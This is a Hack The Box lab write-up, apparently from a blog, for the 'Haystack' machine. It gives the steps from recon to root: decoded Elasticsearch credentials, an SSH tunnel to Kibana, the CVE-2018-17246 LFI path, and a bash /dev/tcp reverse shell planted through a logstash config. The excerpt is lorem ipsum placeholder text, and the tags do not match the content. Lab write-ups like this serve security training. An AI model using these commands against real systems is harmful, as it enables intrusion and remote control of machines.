 ```yaml
---
layout: single
title: Haystack - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-haystack/haystack_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-haystack/haystack_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. nmap -Pn -sC -sV 10.10.10.115
    22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
    80/tcp   open  http    nginx 1.12.2
    9200/tcp open  http    nginx 1.12.2
    |_http-server-header: nginx/1.12.2
    |_http-title: 502 Bad Gateway

2. Download the image from http://10.10.10.115

3. strings needle.jpg shows base64 code at the end: bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

    Decrypt gives us following Spanish text: la aguja en el pajar es "clave"
    .. or in English: the needle in the haystack is "key"

4. http://10.10.10.115:9200
    Clustername "elasticsearch" hints on how to move on. Googling elasticsearch gives the URI-syntax _search?q=WORD
    https://www.elastic.co/guide/en/elasticsearch/reference/current/search-uri-request.html

    http://10.10.10.115:9200/_search?q=clave
    "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
    "I have to save the key for the machine: dXNlcjogc2VjdXJpdHkg"

    "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="
    "This key cannot be lost, I save it here: cGFzczogc3BhbmlzaC5pcy5rZXk="

5. Decrypt the keys (base64):
    dXNlcjogc2VjdXJpdHkg --> user: security
    cGFzczogc3BhbmlzaC5pcy5rZXk= --> pass: spanish.is.key

6. SSH with user/pass given above.
    [security@haystack ~]$ whoami
    security
    [security@haystack ~]$ cd /home/security/
    [security@haystack ~]$ ls -al
    total 16
    drwx------. 2 security security  99 Feb  6  2019 .
    drwxr-xr-x. 3 root     root      22 Nov 28  2018 ..
    lrwxrwxrwx. 1 root     root       9 Jan 25  2019 .bash_history -> /dev/null
    -rw-r--r--. 1 security security  18 Apr 10  2018 .bash_logout
    -rw-r--r--. 1 security security 193 Apr 10  2018 .bash_profile
    -rw-r--r--. 1 security security 231 Apr 10  2018 .bashrc
    -rw-r--r--. 1 security security  33 Feb  6  2019 user.txt
    [security@haystack ~]$ cat user.txt
    04d*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Scan system with lse to find vulns. Under "Processes running with root permissions" we can find a lot of output regarding logstash.
    Reading up on logstash it is used for Kibana. Kibana uses port 5601 which is running locally.

    [security@haystack shm]$ ./lse.sh -l1
    [*] net000 Services listening only on localhost............................ yes!
    tcp    LISTEN     0      128    127.0.0.1:5601                  *:*


2. Setup a (remote) SSH tunnel to access the service from the attacking host.
    Remotly from Haystack: ssh -R 5601:127.0.0.1:5601 p3@10.10.14.7
    Or locally from Kali: ssh -L 5601:localhost:5601 security@10.10.10.115

    Open a web browser to http://127.0.0.1:5601 and you'll reach Kibana.

3. Kibana runs version 6.4.2 and is vulnerable for LFI (CVE-2018-17246)
    https://github.com/mpgn/CVE-2018-17246

    Upload a .js reverse shell to /dev/shm, start netcat locally and run the LFI:
    http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/node-rev.js

4. We don't get immediate root access with user kibana, so better upgrade to a proper shell
    root@p3:/opt/shells# nc -lnvp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 41040
    whoami
    kibana
    cd /root
    /bin/sh: línea 3: cd: /root: Permiso denegado

5. Using lse.sh again we can see that dir /etc/logstash/conf.d is writable and has three interesting config files; filter.conf, input.conf, output.config
    input.conf looks for a file to execute every 10s in path /opt/kibana/ with filename logstash_*, however it must match the syntax of filter.conf

6. Create a reverse shell to be executed, matching input.conf and filter.conf
    bash-4.2$ echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.7/3366 0>&1" > /opt/kibana/logstash_p3.txt

7. Start netcat and wait for the incoming root shell
    root@p3:/opt/shells$ nc -lnvp 3366
    listening on [any] 3366 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.115] 60796
    bash: no hay control de trabajos en este shell
    [root@haystack /]# whoami
    whoami
    root
    [root@haystack /]# cat /root/root.txt
    cat /root/root.txt
    3f5******************************
